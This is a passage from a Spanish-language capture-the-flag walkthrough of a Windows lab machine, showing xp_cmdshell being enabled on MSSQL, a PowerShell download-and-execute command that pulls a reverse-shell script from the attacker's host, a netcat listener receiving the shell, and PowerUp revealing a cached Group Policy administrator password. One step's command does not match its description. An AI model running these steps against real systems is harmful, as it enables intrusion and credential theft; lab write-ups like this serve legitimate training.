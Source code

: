 `Activamos` la `ejecución` de `comandos`

```
SQL (QUERIER\mssql-svc  dbo@master)> EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
```

`Ejecutamos` el `binario` .ps1

```
SQL (QUERIER\mssql-svc  dbo@master)> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.16.23/Invoke-PowerShellTcp.ps1") | powershell -noprofile'
```

Ganamos acceso a la máquina víctima

```
# rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.255.12] 49678
Windows PowerShell running as user mssql-svc on QUERIER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
querier\mssql-svc
```
## Privilege Escalation

Nos `descargamos` [https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) y `abrimos` el `archivo` con un `editor` de `código`, en `nano` pulsando `CTRL + V` nos lleva a la última línea, una vez ahí añadimos `Invoke-AllChecks`. Una vez hecho esto nos `creamos` un `servidor http` con `python` en la misma ruta donde se encuentra `PowerUp.ps1`

```
# pyhton -m http.server 80
```

Desde la `máquina víctima` nos `descargamos` y `ejecutamos` el script `PowerUp.ps1`

```
PS C:\Windows\Temp\Privesc> IEX(New-Object Net.WebClient).DownloadString("http://10.10.16.23/Invoke-PowerShellTcp.ps1")
```

Nos ha `encontrado` una `credencial` del usuario `Administrator` en `C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml`

```
Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group 
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Check     : Cached GPP Files
```
